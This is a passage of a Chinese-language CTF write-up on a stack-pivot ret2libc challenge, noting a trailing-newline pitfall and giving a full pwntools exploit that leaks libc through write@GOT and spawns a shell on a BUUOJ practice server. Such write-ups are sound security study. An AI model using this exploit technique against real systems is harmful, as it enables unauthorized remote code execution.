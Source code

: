 `ret（pop eip）`->将esp指向的输值弹给eip
接下来就是常规的ret2libc

哦对了，还有一个巨坑，专门搞我这种不分青红皂白就p.sendline()的人：

按理说，收到"What is your name?"后应该发送一段payload，可是它并没有停下来发送，而是接收到了下一句话

![image-20210328002104313](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041737249.png)

因为**第二个payload不能有多余的回车，否则会跳过下一次读取**（差不多得了！）

完整exp如下：

```
from pwn import *
from LibcSearcher import *
context(arch = 'i386', os = 'linux', log_level = 'debug')
p = remote('node3.buuoj.cn', 27989)
e = ELF('./pwn')

write_plt_addr = e.plt['write']
write_got_addr = e.got['write']
main_addr = 0x08048513
s = 0x0804A300
leave_ret_addr = 0x08048408

payload1 = p32(write_plt_addr) + p32(main_addr) + p32(1) + p32(write_got_addr) + p32(4)
p.recvuntil("What is your name?")
p.sendline(payload1)

payload2 = b'a'*0x18 + p32(s-4) + p32(leave_ret_addr)
p.recvuntil("What do you want to say?")
#p.sendline(payload2)!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
p.send(payload2)#!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!

write_true_addr = u32(p.recv(4))
libc = LibcSearcher('write', write_true_addr)
libc_base_addr = write_true_addr - libc.dump('write')
system_true_addr = libc_base_addr + libc.dump('system')
bin_sh_addr = libc_base_addr + libc.dump('str_bin_sh')

payload3 = p32(system_true_addr) + p32(0) + p32(bin_sh_addr)
p.recvuntil("What is your name?")
p.sendline(payload3)

p.recvuntil("What do you want to say?")
p.sendline(payload2)
p.interactive()
```

# jarvisoj_fm

没什么难的，权当记录一下payload不用fmstr_payload的写法
